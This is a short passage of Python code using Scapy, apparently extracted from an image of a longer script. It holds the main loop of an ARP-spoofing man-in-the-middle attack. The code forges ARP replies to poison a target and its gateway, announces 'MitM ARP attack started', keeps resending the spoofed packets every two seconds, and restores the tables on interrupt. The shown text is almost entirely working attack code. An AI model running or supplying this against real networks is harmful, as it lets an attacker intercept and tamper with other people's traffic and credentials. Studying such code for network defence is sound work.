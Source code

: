 ```
   poison_target.psrc = gateway
```

```
   poison_target.pdst = target
```

```
   poison_target.hwdst = targetmac_addr
```

```
   poison_gateway = ARP()
```

```
   poison_gateway.op = 2
```

```
   poison_gateway.psrc = target
```

```
   poison_gateway.pdst = gateway
```

```
   poison_gateway.hwdst = gwmac_addr
```

```
   print("\nMitM ARP attack started.")
```

```
   while True:
```

```
     try:
```

```
       send(poison_target)
```

```
       send(poison_gateway)
```

```
       time.sleep(2)
```

```
     except KeyboardInterrupt:
```

```
       restore(gateway, gwmac_addr, target, targetmac_addr)
```

```
   return
```
